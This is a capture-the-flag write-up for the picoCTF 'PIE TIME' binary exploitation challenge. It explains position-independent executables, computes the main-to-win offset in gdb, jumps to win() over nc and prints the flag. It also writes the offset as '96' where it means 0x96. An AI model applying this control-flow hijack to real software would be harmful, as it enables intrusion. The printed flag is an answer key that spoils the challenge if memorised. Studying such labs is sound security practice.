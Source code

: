 Can you try to get the flag? Beware we have PIE!
# Solution

- Running `file` on `vuln`, we see that PIE is in fact enabled:
- But what is PIE anyways? It stands for **p**osition **i**ndependent **e**xecutable, which means that the machine code executes properly regardless of its memory address[1](https://blog.cbarkr.com/ctf/picoCTF/2025/PIE-TIME#user-content-fn-wiki). This is used to enable address space layout randomization (ASLR), which essentially means the binary will be loaded into a different memory address every time it is executed. Addresses in PIE are relative - that is, despite the binary being loaded into a random address, the offsets between parts of the binary will remain the same. This is what we’ll use to construct our payload.

```bash
~/Hentai/pico ❯ file vuln      
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
```

```bash
~/Hentai/pico ❯ cat vuln.c  
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}%                
```

- So we have to somehow get to `win()` function.
- Even though due to PIE address are randomized but the different between `main()` and `win()` function will be constant.

```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x00000000000010e0  __cxa_finalize@plt
0x00000000000010f0  putchar@plt
0x0000000000001100  puts@plt
0x0000000000001110  fclose@plt
0x0000000000001120  __stack_chk_fail@plt
0x0000000000001130  printf@plt
0x0000000000001140  fgetc@plt
0x0000000000001150  signal@plt
0x0000000000001160  setvbuf@plt
0x0000000000001170  fopen@plt
0x0000000000001180  __isoc99_scanf@plt
0x0000000000001190  exit@plt
0x00000000000011a0  _start
0x00000000000011d0  deregister_tm_clones
0x0000000000001200  register_tm_clones
0x0000000000001240  __do_global_dtors_aux
0x0000000000001280  frame_dummy
0x0000000000001289  segfault_handler
0x00000000000012a7  win
0x000000000000133d  main
0x0000000000001410  __libc_csu_init
0x0000000000001480  __libc_csu_fini
0x0000000000001488  _fini
```

- If we subtract the difference of `win` and `main` function that is `0x000000000000133d ` - `0x00000000000012a7`  from [Here](https://www.rapidtables.com/calc/math/hex-calculator.html?num1=0x000000000000133d%20&op=1&num2=0x00000000000012a7_) then the offset we get will be `96`.

```bash
 ❯ nc rescued-float.picoctf.net 49905
Address of main: 0x5b45950bd33d
Enter the address to jump to, ex => 0x12345: 
```

- In remote it says main is in `0x5b45950bd33d` so now if we subtract constant with it we should be able to get `win()` functions for it. 
- Also remote connection main function address changes everytime.
- When we `0x5b45950bd33d - 0x96` we get `5B45950BD2A7` which is `win` address.

```bash
~/Hentai/pico ❯ nc rescued-float.picoctf.net 49905
Address of main: 0x5b45950bd33d
Enter the address to jump to, ex => 0x12345: 5B45950BD2A7
Your input: 5b45950bd2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}
```

- `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}`

---
